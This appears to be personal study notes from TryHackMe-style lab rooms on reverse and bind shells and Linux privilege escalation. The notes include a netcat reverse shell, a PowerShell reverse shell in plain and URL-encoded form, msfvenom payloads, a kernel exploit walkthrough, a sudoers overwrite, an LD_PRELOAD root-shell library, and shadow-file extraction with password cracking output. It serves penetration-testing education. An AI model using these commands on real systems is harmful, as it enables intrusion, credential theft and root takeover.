






# Privilege Escalation 

<span style="font-size: 23px;">**What does "privilege escalation" mean?**</span>

At it's core, Privilege Escalation usually involves going from a lower permission account to a higher permission one. More technically, it's the exploitation of a vulnerability, design flaw, or configuration oversight in an operating system or application to gain unauthorized access to resources that are usually restricted from the users.

<span style="font-size: 23px;">**Why is it important?**</span>

It's rare when performing a real-world penetration test to be able to gain a foothold (initial access) that gives you direct administrative access. Privilege escalation is crucial because it lets you gain system administrator levels of access, which allows you to perform actions such as:

- Resetting passwords
- Bypassing access controls to compromise protected data
- Editing software configurations
- Enabling persistence
- Changing the privilege of existing (or new) users
- Execute any administrative command

## What the Shell

### Tools

There are a variety of tools that we will be using to receive reverse shells and to send bind shells. In general terms, we need malicious shell code, as well as a way of interfacing with the resulting shell. We will discuss each of these briefly below:

[Netcat](../cyber/tools.md#netcat):

Netcat is the traditional "Swiss Army Knife" of networking. It is used to manually perform all kinds of network interactions, including things like banner grabbing during enumeration, but more importantly for our uses, it can be used to receive reverse shells and connect to remote ports attached to bind shells on a target system. Netcat shells are very unstable (easy to lose) by default, but can be improved by techniques that we will be covering in an upcoming task.

**[Socat](../cyber/tools.md#socat):**

Socat is like netcat on steroids. It can do all of the same things, and many more. Socat shells are usually more stable than netcat shells out of the box. In this sense it is vastly superior to netcat; however, there are two big catches:

  1. The syntax is more difficult
  2. Netcat is installed on virtually every Linux distribution by default. Socat is very rarely installed by default.

There are work arounds to both of these problems, which we will cover later on.

Both Socat and Netcat have .exe versions for use on Windows.

**Metasploit -- multi/handler:**

The `exploit/multi/handler` module of the Metasploit framework is, like socat and netcat, used to receive reverse shells. Due to being part of the Metasploit framework, multi/handler provides a fully-fledged way to obtain stable shells, with a wide variety of further options to improve the caught shell. It's also the only way to interact with a meterpreter shell, and is the easiest way to handle staged payloads.

**Msfvenom:**

Like multi/handler, msfvenom is technically part of the Metasploit Framework, however, it is shipped as a standalone tool. Msfvenom is used to generate payloads on the fly. Whilst msfvenom can generate payloads other than reverse and bind shells, these are what we will be focusing on in this room. Msfvenom is an incredibly powerful tool, so we will go into its application in much more detail in a dedicated task.

Aside from the tools we've already covered, there are some repositories of shells in many different languages. One of the most prominent of these is [Payloads all the Things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md). The PentestMonkey [Reverse Shell Cheatsheet](https://web.archive.org/web/20200901140719/http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) is also commonly used. In addition to these online resources, Kali Linux also comes pre-installed with a variety of webshells located at `/usr/share/webshells`. The [SecLists repo](https://github.com/danielmiessler/SecLists), though primarily used for wordlists, also contains some very useful code for obtaining shells.

### Types of Shell

At a high level, we are interested in two kinds of shell when it comes to exploiting a target: Reverse shells, and bind shells.

- **[Reverse shells](../cyber/shells.md#reverse-shell)** are when the target is forced to execute code that connects back to your computer. On your own computer you would use one of the tools mentioned in the previous task to set up a listener which would be used to receive the connection. Reverse shells are a good way to bypass firewall rules that may prevent you from connecting to arbitrary ports on the target; however, the drawback is that, when receiving a shell from a machine across the internet, you would need to configure your own network to accept the shell. This, however, will not be a problem on the TryHackMe network due to the method by which we connect into the network.
- **[Bind shells](../cyber/shells.md#bind-shell)** are when the code executed on the target is used to start a listener attached to a shell directly on the target. This would then be opened up to the internet, meaning you can connect to the port that the code has opened and obtain remote code execution that way. This has the advantage of not requiring any configuration on your own network, but may be prevented by firewalls protecting the target.

### Common Shell Payloads

<span style="font-size: 23px;">**linux**</span>

On Linux, however, we would instead use this code to create a listener for a bind shell:

`mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f`

The command first creates a [named pipe](https://www.linuxjournal.com/article/2156) at `/tmp/f`. It then starts a netcat listener, and connects the input of the listener to the output of the [named pipe](../linux/LinuxFundamentals.md#named-pipe). The output of the netcat listener (i.e. the commands we send) then gets piped directly into `sh`, sending the stderr output stream into stdout, and sending stdout itself into the input of the named pipe, thus completing the circle.


A very similar command can be used to send a netcat reverse shell:

`mkfifo /tmp/f; nc <LOCAL-IP> <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f`

This command is virtually identical to the previous one, other than using the netcat connect syntax, as opposed to the netcat listen syntax.


<span style="font-size: 23px;">**windows server**</span>

When targeting a modern Windows Server, it is very common to require a Powershell reverse shell, so we'll be covering the standard one-liner PSH reverse shell here.

This command is very convoluted, so for the sake of simplicity it will not be explained directly here. It is, however, an extremely useful one-liner to keep on hand:

`powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<ip>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"`

In order to use this, we need to replace "`<IP>`" and "`<port>`" with an appropriate IP and choice of port. It can then be copied into a cmd.exe shell (or another method of executing commands on a Windows server, such as a webshell) and executed, resulting in a reverse shell:


For other common reverse shell payloads, [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) is a repository containing a wide range of shell codes (usually in one-liner format for copying and pasting), in many different languages. It is well worth reading through the linked page to see what's available.

### msfvenom 

[Msfvenom](./Metasploit.md#msfvenom): the one-stop-shop for all things payload related.

Part of the Metasploit framework, msfvenom is used to generate code for primarily reverse and bind shells. It is used extensively in lower-level exploit development to generate hexadecimal shellcode when developing something like a Buffer Overflow exploit; however, it can also be used to generate payloads in various formats (e.g. `.exe`, `.aspx`, `.war`, `.py`).

The standard syntax for msfvenom is as follows:

`msfvenom -p <PAYLOAD> <OPTIONS>`

For example, to generate a Windows x64 Reverse Shell in an exe format, we could use:

`msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=<listen-IP> LPORT=<listen-port>`


Here we are using a payload and four options:
- `-f <format>`
  - Specifies the output format. In this case that is an executable (exe)
- `-o <file>`
  - The output location and filename for the generated payload.
- `LHOST=<IP>`
  - Specifies the IP to connect back to.
- `LPORT=<port>`
  - The port on the local machine to connect back to. This can be anything between 0 and 65535 that isn't already in use; however, ports below 1024 are restricted and require a listener running with root privileges.

<span style="font-size: 23px;">**Staged vs Stageless**</span>

Before we go any further, there are another two concepts which must be introduced: **staged** reverse shell payloads and **stageless** reverse shell payloads.

- **Staged** payloads are sent in two parts. The first part is called the stager. This is a piece of code which is executed directly on the server itself. It connects back to a waiting listener, but doesn't actually contain any reverse shell code by itself. Instead it connects to the listener and uses the connection to load the real payload, executing it directly and preventing it from touching the disk where it could be caught by traditional anti-virus solutions. Thus the payload is split into two parts -- a small initial stager, then the bulkier reverse shell code which is downloaded when the stager is activated. Staged payloads require a special listener -- usually the Metasploit multi/handler.
- **Stageless** payloads are more common -- these are what we've been using up until now. They are entirely self-contained in that there is one piece of code which, when executed, sends a shell back immediately to the waiting listener.

Stageless payloads tend to be easier to use and catch; however, they are also bulkier, and are easier for an antivirus or intrusion detection program to discover and remove. Staged payloads are harder to use, but the initial stager is a lot shorter, and is sometimes missed by less-effective antivirus software. Modern day antivirus solutions will also make use of the Anti-Malware Scan Interface (AMSI) to detect the payload as it is loaded into memory by the stager, making staged payloads less effective than they would once have been in this area.

<span style="font-size: 23px;">**Meterpreter**</span>

On the subject of Metasploit, another important thing to discuss is a [Meterpreter](./Metasploit.md#meterpreter) shell. Meterpreter shells are Metasploit's own brand of fully-featured shell. They are completely stable, making them a very good thing when working with Windows targets. They also have a lot of inbuilt functionality of their own, such as file uploads and downloads. If we want to use any of Metasploit's post-exploitation tools then we need to use a meterpreter shell, however, that is a topic for another time. The downside to meterpreter shells is that they must be caught in Metasploit.

<span style="font-size: 23px;">**Payload Naming Conventions**</span>

When working with msfvenom, it's important to understand how the naming system works. The basic convention is as follows:

`<OS>/<arch>/<payload>`

For example:

`linux/x86/shell_reverse_tcp`

This would generate a stageless reverse shell for an x86 Linux target.

The exception to this convention is Windows 32bit targets. For these, the arch is not specified. e.g.:

`windows/shell_reverse_tcp`

For a 64bit Windows target, the arch would be specified as normal (x64).

Let's break the payload section down a little further.

In the above examples the payload used was `shell_reverse_tcp`. This indicates that it was a stageless payload. How? Stageless payloads are denoted with underscores (`_`). The staged equivalent to this payload would be:

`shell/reverse_tcp`

As staged payloads are denoted with another forward slash (`/`).

This rule also applies to Meterpreter payloads. A Windows 64bit staged Meterpreter payload would look like this:

`windows/x64/meterpreter/reverse_tcp`

A Linux 32bit stageless Meterpreter payload would look like this:

`linux/x86/meterpreter_reverse_tcp`

---

Aside from the `msfconsole` man page, the other important thing to note when working with msfvenom is:

`msfvenom --list payloads`

This can be used to list all available payloads, which can then be piped into `grep` to search for a specific set of payloads. For example:


This gives us a full set of Linux meterpreter payloads for 32bit targets.

<span style="font-size: 23px;">**Q&A**</span>

What command would you use to generate a staged meterpreter reverse shell for a 64bit Linux target, assuming your own IP was 10.10.10.5, and you were listening on port 443? The format for the shell is elf and the output filename should be shell

`msfvenom -p linux/x64/meterpreter/reverse_tcp -f elf -o shell LHOST=10.10.10.5 LPORT=443`

### Metasploit multi/handler

Multi/Handler is a superb tool for catching reverse shells. It's essential if you want to use Meterpreter shells, and is the go-to when using staged payloads.

Fortunately, it's relatively easy to use:

1. Open Metasploit with `msfconsole`
2. Type `use multi/handler`, and press enter

### Webshells

"[Webshell](../cyber/shells.md#web-shell)" is a colloquial term for a script that runs inside a webserver (usually in a language such as PHP or ASP) which executes code on the server. Essentially, commands are entered into a webpage -- either through a HTML form, or directly as arguments in the URL -- which are then executed by the script, with the results returned and written to the page. This can be extremely useful if there are firewalls in place, or even just as a stepping stone into a fully fledged reverse or bind shell.

As mentioned previously, there are a variety of webshells available on Kali by default at `/usr/share/webshells` -- including the infamous [PentestMonkey php-reverse-shell](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php) -- a full reverse shell written in PHP. Note that most generic, language specific (e.g. PHP) reverse shells are written for Unix based targets such as Linux webservers. They will not work on Windows by default.

When the target is Windows, it is often easiest to obtain RCE using a web shell, or by using msfvenom to generate a reverse/bind shell in the language of the server. With the former method, obtaining RCE is often done with a URL Encoded Powershell Reverse Shell. This would be copied into the URL as the `cmd` argument:

```bash
powershell%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%27<IP>%27%2C<PORT>%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5D%3A%3AASCII%29.GetBytes%28%24sendback2%29%3B%24stream.Write%28%24sendbyte%2C0%2C%24sendbyte.Length%29%3B%24stream.Flush%28%29%7D%3B%24client.Close%28%29%22
```

This is the same shell we encountered [before](#common-shell-payloads), however, it has been URL encoded to be used safely in a GET parameter. Remember that the IP and Port (bold, towards end of the top line) will still need to be changed in the above code.

## Linux Privilege Escalation

### Enumeration

Enumeration is the first step you have to take once you gain access to any system. You may have accessed the system by exploiting a critical vulnerability that resulted in root-level access or just found a way to send commands using a low privileged account. Penetration testing engagements, unlike CTF machines, don't end once you gain access to a specific system or user privilege level. As you will see, enumeration is as important during the post-compromise phase as it is before.

<span style="font-size: 23px;">**hostname**</span>

The `hostname` command will return the hostname of the target machine. Although this value can easily be changed or have a relatively meaningless string (e.g. Ubuntu-3487340239), in some cases, it can provide information about the target system's role within the corporate network (e.g. SQL-PROD-01 for a production SQL server).

<span style="font-size: 23px;">**uname -a**</span>

Will print system information giving us additional detail about the kernel used by the system. This will be useful when searching for any potential kernel vulnerabilities that could lead to privilege escalation.

<span style="font-size: 23px;">**/proc/version**</span>

The proc filesystem (procfs) provides information about the target system processes. You will find proc on many different Linux flavours, making it an essential tool to have in your arsenal.

Looking at `/proc/version` may give you information on the kernel version and additional data such as whether a compiler (e.g. GCC) is installed.

<span style="font-size: 23px;">**/etc/issue**</span>

Systems can also be identified by looking at the `/etc/issue` file. This file usually contains some information about the operating system but can easily be customized or changed. While on the subject, any file containing system information can be customized or changed. For a clearer understanding of the system, it is always good to look at all of these.

<span style="font-size: 23px;">**ps Command**</span>

The `ps` command is an effective way to see the running processes on a Linux system. Typing `ps` on your terminal will show processes for the current shell.

The output of the `ps` (Process Status) will show the following;

- PID: The process ID (unique to the process)
- TTY: Terminal type used by the user
- Time: Amount of CPU time used by the process (this is NOT the time this process has - been running for)
- CMD: The command or executable running (will NOT display any command line parameter)

The “ps” command provides a few useful options.

- `ps -A`: View all running processes
- `ps axjf`: View process tree 
- `ps aux`: The `aux` option will show processes for all users (a), display the user that launched the process (u), and show processes that are not attached to a terminal (x). Looking at the ps aux command output, we can have a better understanding of the system and potential vulnerabilities.

<span style="font-size: 23px;">**env**</span>

The `env` command will show environmental variables.

The PATH variable may have a compiler or a scripting language (e.g. Python) that could be used to run code on the target system or leveraged for privilege escalation.

<span style="font-size: 23px;">**sudo -l**</span>

The target system may be configured to allow users to run some (or all) commands with root privileges. The `sudo -l` command can be used to list all commands your user can run using `sudo`.

<span style="font-size: 23px;">**ls**</span>

One of the common commands used in Linux is probably `ls`.

While looking for potential privilege escalation vectors, please remember to always use the `ls` command with the `-la` parameter. 

<span style="font-size: 23px;">**id**</span>

The `id` command will provide a general overview of the user's privilege level and group memberships.

obtain the information for another user:  `id username`

<span style="font-size: 23px;">**/etc/passwd**</span>

Reading the /etc/passwd file can be an easy way to discover users on the system.

```bash
# cut and converted to a useful list for brute-force attacks
cat /etc/passwd | cut -d ":" -f 1

# grep for “home”
cat /etc/passwd | grep home
```
<span style="font-size: 23px;">**/etc/shadow**</span>

the hashed passwords of users are found in `/etc/ shadow`
```bash
cat /etc/shadow | grep frank
```
**Note:** this requires root access to read.

<span style="font-size: 23px;">**history**</span>

Looking at earlier commands with the `history` command can give us some idea about the target system and, albeit rarely, have stored information such as passwords or usernames.

<span style="font-size: 23px;">**ifconfig**</span>

The target system may be a pivoting point to another network. The `ifconfig` command will give us information about the network interfaces of the system. The example below shows the target system has three interfaces (eth0, tun0, and tun1). Our attacking machine can reach the eth0 interface but can not directly access the two other networks.

This can be confirmed using the `ip route` command to see which network routes exist.

<span style="font-size: 23px;">**netstat**</span>

Following an initial check for existing interfaces and network routes, it is worth looking into existing communications. The `netstat` command can be used with several different options to gather information on existing connections.

- `netstat -a`: shows all listening ports and established connections.
- `netstat -at` or `netstat -au` can also be used to list TCP or UDP protocols respectively.
- `netstat -l`: list ports in “listening” mode. These ports are open and ready to accept incoming connections. This can be used with the “t” option to list only ports that are listening using the TCP protocol.
- `netstat -s`: list network usage statistics by protocol. This can also be used with the `-t` or `-u` options to limit the output to a specific protocol.
- `netstat -tp`: list connections with the service name and PID information.This can also be used with the -l option to list listening ports(`netstat -ltp`).
- `netstat -i`: Shows interface statistics. We see below that “eth0” and “tun0” are more active than “tun1”.

The netstat usage you will probably see most often in blog posts, write-ups, and courses is `netstat -ano` which could be broken down as follows;

- `-a`: Display all sockets
- `-n`: Do not resolve names
- `-o`: Display timers

<span style="font-size: 23px;">**find Command**</span>

Searching the target system for important information and potential privilege escalation vectors can be fruitful. The built-in “find” command is useful and worth keeping in your arsenal.

Below are some useful examples for the “find” command.

**Find files:**

- `find . -name flag1.txt`: find the file named “flag1.txt” in the current directory
- `find /home -name flag1.txt`: find the file names “flag1.txt” in the /home directory
- `find / -type d -name config`: find the directory named config under “/”
- `find / -type f -perm 0777`: find files with the 777 permissions (files readable, writable, and executable by all users)
- `find / -perm a=x`: find executable files
- `find /home -user frank`: find all files for user “frank” under “/home”
- `find / -mtime 10`: find files that were modified in the last 10 days
- `find / -atime 10`: find files that were accessed in the last 10 day
- `find / -cmin -60`: find files changed within the last hour (60 minutes)
- `find / -amin -60`: find files accesses within the last hour (60 minutes)
- `find / -size 50M`: find files with a 50 MB size
- `find / -size +100M`: can also be used with (+) and (-) signs to specify a file that is larger or smaller than the given size.

It is **important** to note that the “find” command tends to generate errors which sometimes makes the output hard to read. This is why it would be wise to use the “find” command with “`-type f 2>/dev/null`” to redirect errors to “/dev/null” and have a cleaner output (below).

`find / -size +100M -type f 2>/dev/null`

**Folders and files that can be written to or executed from:**

- `find / -writable -type d 2>/dev/null`: Find world-writeable folders
- `find / -perm -222 -type d 2>/dev/null`: Find world-writeable folders
- `find / -perm -o w -type d 2>/dev/null`: Find world-writeable folders
- `find / -perm -o x -type d 2>/dev/null`: Find world-executable folders

**Find development tools and supported languages:**

- `find / -name perl*`
- `find / -name python*`
- `find / -name gcc*`

**Find specific file permissions:**

Below is a short example used to find files that have the SUID bit set. The SUID bit allows the file to run with the privilege level of the account that owns it, rather than the account which runs it.

`find / -perm -u=s -type f 2>/dev/null`: Find files with the SUID bit, which allows us to run the file with a higher privilege level than the current user.

`find / -type f -perm -04000 -ls 2>/dev/null`: 都能查找 SUID 文件 `-perm -u=s` 是符号写法，`-perm -04000` 是八进制写法

<span style="font-size: 23px;">**General Linux Commands**</span>

As we are in the Linux realm, familiarity with Linux commands, in general, will be very useful. Please spend some time getting comfortable with commands such as `find`, `locate`, `grep`, `cut`, `sort`, `etc`.

<span style="font-size: 23px;">**Automated Enumeration Tools**</span>

- **LinPeas:** https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS
- **LinEnum:** https://github.com/rebootuser/LinEnum
- **LES (Linux Exploit Suggester):** https://github.com/mzet-/linux-exploit-suggester
- **Linux Smart Enumeration:** https://github.com/diego-treitos/linux-smart-enumeration
- **Linux Priv Checker:** https://github.com/linted/linuxprivchecker

### Kernel Exploits

Privilege escalation ideally leads to root privileges. This can sometimes be achieved simply by exploiting an existing vulnerability, or in some cases by accessing another user account that has more privileges, information, or access.

Unless a single vulnerability leads to a root shell, the privilege escalation process will rely on misconfigurations and lax permissions.

The kernel on Linux systems manages the communication between components such as the memory on the system and applications. This critical function requires the kernel to have specific privileges; thus, a successful exploit will potentially lead to root privileges.

The Kernel exploit methodology is simple;

1. Identify the kernel version
2. Search and find an exploit code for the kernel version of the target system
3. Run the exploit

Although it looks simple, please remember that a failed kernel exploit can lead to a system crash. Make sure this potential outcome is acceptable within the scope of your penetration testing engagement before attempting a kernel exploit.

**Research sources:**

1. Based on your findings, you can use Google to search for an existing exploit code.
2. Sources such as https://www.cvedetails.com/ can also be useful.
3. Another alternative would be to use a script like LES (Linux Exploit Suggester) but remember that these tools can generate false positives (report a kernel vulnerability that does not affect the target system) or false negatives (not report any kernel vulnerabilities although the kernel is vulnerable).

**Hints/Notes:**

1. Being too specific about the kernel version when searching for exploits on Google, Exploit-db, or searchsploit
2. Be sure you understand how the exploit code works BEFORE you launch it. Some exploit codes can make changes on the operating system that would make them unsecured in further use or make irreversible changes to the system, creating problems later. Of course, these may not be great concerns within a lab or CTF environment, but these are absolute no-nos during a real penetration testing engagement.
3. Some exploits may require further interaction once they are run. Read all comments and instructions provided with the exploit code.
4. You can transfer the exploit code from your machine to the target system using the `SimpleHTTPServer` Python module and `wget` respectively.

<span style="font-size: 23px;">**Q&A**</span>

find and use the appropriate kernel exploit to gain root privileges on the target system.What is the content of the flag1.txt file?

**Method 1**

0. Some simple googling on **3.13.0–24-generic** will quickly bring you to a page mentioning **CVE-2015–1328**.

1. Downloading the .c file from github.
```bash
wget https://raw.githubusercontent.com/DarkenCode/PoC/refs/heads/master/CVE-2015-1328/CVE-2015-1328.c
```
2. Setting executable permissions on the file
```bash
chmod +x CVE-2015-1328.c
```
3. Setting up a simple Python webserver on your machine:
```bash
python3 -m http.server
```
4. Download the file to the target machine.

Now we need to download the file from your attacker machine. It is important to run these commands from the target machine. Before you fetch the file it is important to be in the `/tmp` directory so that you have permissions to “write” files.
```bash
cd /tmp
get <attacker ip>:8000/CVE-2015-1328.c
```
5. Compiling the .c code to a executable
```bash
gcc CVE-2015-1328.c -o exploit
```
6. Running the executable
```bash
./exploit
```
7. find the flag with a quick find command:
```bash
find / -name flag1.txt 2>/dev/null
```
**Method 2**
use Metasploit module
```bash
msf > use exploit/linux/local/overlayfs_priv_esc
msf exploit(overlayfs_priv_esc) > show target
smsf exploit(overlayfs_priv_esc) > set TARGET < target-id >
msf exploit(overlayfs_priv_esc) > show options
msf exploit(overlayfs_priv_esc) > exploit
```
### Sudo

The sudo command, by default, allows you to run a program with root privileges. Under some conditions, system administrators may need to give regular users some flexibility on their privileges. For example, a junior SOC analyst may need to use Nmap regularly but would not be cleared for full root access. In this situation, the system administrator can allow this user to only run Nmap with root privileges while keeping its regular privilege level throughout the rest of the system.

Any user can check its current situation related to root privileges using the `sudo -l` command.

https://gtfobins.github.io/ is a valuable source that provides information on how any program, on which you may have sudo rights, can be used.

<span style="font-size: 23px;">**example**</span> 

**Wgel CTF**

`jessie  ALL=(root) NOPASSWD: /usr/bin/wget` → 

`jessie  ALL=(root) NOPASSWD: ALL`

```bash
sudo wget http://10.10.30.89:8090/sudoers -O /etc/sudoers
```

**Leverage application functions**

Some applications will not have a known exploit within this context. In this case, we can use a "hack" to leak information leveraging a function of the application.

Such an application you may see is the Apache2 server.Apache2 has an option that supports loading alternative configuration files (`-f` : specify an alternate ServerConfigFile).

Loading the `/etc/shadow` file using this option will result in an error message that includes the first line of the `/etc/shadow` file.

**Leverage LD_PRELOAD**

On some systems, you may see the LD_PRELOAD environment option.



LD_PRELOAD is a function that allows any program to use shared libraries. This [blog post](https://rafalcieslak.wordpress.com/2013/04/02/dynamic-linker-tricks-using-ld_preload-to-cheat-inject-features-and-investigate-programs/) will give you an idea about the capabilities of LD_PRELOAD. If the "env_keep" option is enabled we can generate a shared library which will be loaded and executed before the program is run. Please note the LD_PRELOAD option will be ignored if the real user ID is different from the effective user ID.

The steps of this privilege escalation vector can be summarized as follows;

1. Check for LD_PRELOAD (with the env_keep option)
2. Write a simple C code compiled as a share object (.so extension) file
3. Run the program with sudo rights and the LD_PRELOAD option pointing to our .so file

The C code will simply spawn a root shell and can be written as follows;

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}
```
We can save this code as shell.c and compile it using gcc into a shared object file using the following parameters;

`gcc -fPIC -shared -o shell.so shell.c -nostartfiles`



We can now use this shared object file when launching any program our user can run with sudo. In our case, Apache2, find, or almost any of the programs we can run with sudo can be used.

We need to run the program by specifying the LD_PRELOAD option, as follows;

`sudo LD_PRELOAD=/home/user/ldpreload/shell.so find`

This will result in a shell spawn with root privileges.



### SUID

Much of Linux privilege controls rely on controlling the users and files interactions. This is done with permissions. By now, you know that files can have read, write, and execute permissions. These are given to users within their privilege levels. This changes with SUID (Set-user Identification) and SGID (Set-group Identification). These allow files to be executed with the permission level of the file owner or the group owner, respectively.

You will notice these files have an “s” bit set showing their special permission level.

```bash
find / -type f -perm -04000 -ls 2>/dev/null
```
 will list files that have SUID or SGID bits set.

A good practice would be to compare executables on this list with GTFOBins (https://gtfobins.github.io). Clicking on the SUID button will filter binaries known to be exploitable when the SUID bit is set (you can also use this link for a pre-filtered list https://gtfobins.github.io/#+suid).


<span style="font-size: 23px;">**Q&A**</span>

```bash
$ find / -type f -perm -04000 -ls 2>/dev/null
...
1722     44 -rwsr-xr-x   1 root     root               43352 Sep  5  2019 /usr/bin/base64
1674     68 -rwsr-xr-x   1 root     root               67816 Jul 21  2020 /usr/bin/su
2028     40 -rwsr-xr-x   1 root     root               39144 Mar  7  2020 /usr/bin/fusermount
2166     56 -rwsr-sr-x   1 daemon   daemon             55560 Nov 12  2018 /usr/bin/at
1633     56 -rwsr-xr-x   1 root     root               55528 Jul 21  2020 /usr/bin/mount
...
```

discover https://gtfobins.github.io/gtfobins/base64

`./base64 "$LFILE" | base64 --decode`


**Q1:** Which user shares the name of a great comic book writer?

```bash
$ /usr/bin/base64 /etc/passwd | base64 --decode
...
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
gerryconway:x:1001:1001::/home/gerryconway:/bin/sh
user2:x:1002:1002::/home/user2:/bin/sh
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
karen:x:1003:1003::/home/karen:/bin/sh
...
```
**Q2:** What is the password of user2?

Make sure you are in /tmp and run the following commands:
```bash
/usr/bin/base64 /etc/passwd | base64 --decode > passwd.txt 
/usr/bin/base64 /etc/shadow | base64 --decode > shadow.txt
```
on the attack machine

```bash
┌──(root㉿kali)-[~/Desktop]
└─# unshadow passwd.txt shadow.txt > passwords.txt
Created directory: /root/.john

┌──(root㉿kali)-[~/Desktop]
└─# john --wordlist=/usr/share/wordlists/rockyou.txt passwords.txt
Warning: detected hash type "sha512crypt", but the string is also recognized as "HMAC-SHA256"
Use the "--format=HMAC-SHA256" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 3 password hashes with 3 different salts (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Password1        (karen)     
Password1        (user2)     
test123          (gerryconway)     
3g 0:00:00:14 DONE (2025-06-25 16:11) 0.2126g/s 1251p/s 1759c/s 1759C/s paramedic..ellie123
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
**Q3:** What is the content of the flag3.txt file?

```bash
$ /usr/bin/base64 flag3.txt | base64 --decode
THM-3847834
```

### Capabilities

Another method system administrators can use to increase the privilege level of a process or binary is “Capabilities”. Capabilities help manage privileges at a more granular level. For example, if the SOC analyst needs to use a tool that needs to initiate socket connections, a regular user would not be able to do that. If the system administrator does not want to give this user higher privileges, they can change the capabilities of the binary. As a result, the binary would get through its task without needing a higher privilege user.

The capabilities man page provides detailed information on its usage and options.

We can use the `getcap` tool to list enabled capabilities.

`getcap -r / 2>/dev/null`

<span style="font-size: 23px;">**Q&A**</span>

```bash
$ getcap -r / 2>/dev/null
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/ping = cap_net_raw+ep
/home/karen/vim = cap_setuid+ep
/home/ubuntu/view = cap_setuid+ep
```
discover https://gtfobins.github.io/gtfobins/view/#capabilities

```bash
cp $(which view) .
sudo setcap cap_setuid+ep view

